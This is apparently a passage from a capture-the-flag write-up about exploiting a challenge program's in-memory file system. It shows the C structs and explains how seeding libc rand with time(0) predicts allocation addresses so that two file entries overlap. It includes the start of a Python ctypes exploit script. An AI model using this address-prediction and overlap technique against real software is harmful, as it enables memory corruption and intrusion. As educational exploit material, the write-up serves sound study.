 The file system is stored in a tree like data structure using the following structs:
```c
struct entry {
  struct directory_entry* parent_directory;
  enum entry_type type;
  char name[name_max];
};

struct directory_entry {
  struct entry entry;

  size_t child_count;
  struct entry* child[];
};

struct file_entry {
  struct entry entry;

  size_t size;
  char* data;
};

struct link_entry {
  struct entry entry;

  struct entry* target;
};
```

Using the `put` command we can either create a new file or update an existing one, so we can use a `file_entry` as our target to overwrite. Each `file_entry` will call malloc twice, once for the entry struct and once for the content. Initially malloc is called 6 times to set up the existing files and directories, so after we call `srand(time(0))` and then `rand` 6 times we can start generating addressing trying to find two that overlap.

We can do this all in python using `CDLL` to call libc functions, also keep track of the mallocs and whether they are potintially overlap.

```python
from ctypes import CDLL

c = CDLL("libc-2.23.so")
t = c.time(0)
c.srand(t)

allocated = []
overlapping = []

def rand(label):
  loc = c.rand() & 0x1FFFFFFF | 0x40000000;

  allocated.append((loc, label))
  overlapping.append(int((loc-0x40000000)/65535))

  return loc
```
